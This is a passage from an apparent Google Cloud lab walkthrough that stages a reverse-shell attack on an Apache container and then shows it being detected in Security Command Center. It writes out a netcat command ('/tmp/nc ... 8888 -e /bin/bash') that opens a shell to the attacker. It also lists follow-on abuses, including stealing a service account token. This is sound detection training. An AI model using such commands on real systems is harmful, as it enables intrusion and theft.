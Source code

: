 ```apache
drwx------   2 root root 4096 Sep 27  2021 root
drwxr-xr-x   1 root root 4096 Jul 14 00:13 run
drwxr-xr-x   2 root root 4096 Sep 27  2021 sbin
drwxr-xr-x   2 root root 4096 Sep 27  2021 srv
dr-xr-xr-x  13 root root    0 Jul 14 00:13 sys
drwxrwxrwt   1 root root 4096 Jul 14 00:41 tmp
drwxr-xr-x   1 root root 4096 Sep 27  2021 usr
drwxr-xr-x   1 root root 4096 Sep 27  2021 var
```

This means that you have successfully implemented a Reverse Shell attack. You can see, what we have just built on this diagram:

![2b0960f5f8f7ed8f.png](https://cdn.qwiklabs.com/ueafloPhuPmLibd26CmW4nzTniKejErtIG7V%2FtGrOLA%3D align="left")

* **1.** We run the `curl` command on the Attacker instance and connect to the Apache
    
* **2.** Apache launches the `/tmp/nc ${LOCAL_IP} 8888 -e /bin/bash` command using `/bin/sh` shell.
    
* **3.** The `/tmp/nc ${LOCAL_IP} 8888 -e /bin/bash` launches `/bin/bash` process
    
* **4.** The `/tmp/nc ${LOCAL_IP} 8888 -e /bin/bash` command establishes connection to the Attacker instance and redirects input and output of the `/bin/bash` to the remote `nc` process, running on the Attacker's instance
    
* **5.** The Attacker communicates with remote `/bin/bash` process interactively
    

The attacker can develop this attack further by launching possible scenarios such as:

* Defacing the website
    
* Running his/her own load in this container
    
* Fetching the token of the Service Account and using it for exploiting the associated Google Cloud environment
    

All these scenarios are out of scope of the current lab.

36. Enter **Ctrl+C** in both SSH sessions to stop running commands.
    
37. Exit out of both SSH session windows by entering the "exit" command.
    

**Note:** You can also enter **Cmnd + W** to exit out of SSH windows.

38. Return to the Google Cloud Console.
    
39. Open the navigation menu and select **Security &gt; Security Command Center &gt; Findings**.
    
40. Set the time range to **Last hour**.
    
41. Ensure you see one (or two) findings for Reverse shell:
    

![42fcfbdf871a5c50.png](https://cdn.qwiklabs.com/0bJv0PeLI3oG3zv6w2WayS0ZvyIRJLvodYOihsK%2BcHQ%3D align="left")

42. Click on the URL underneath the category section:
    

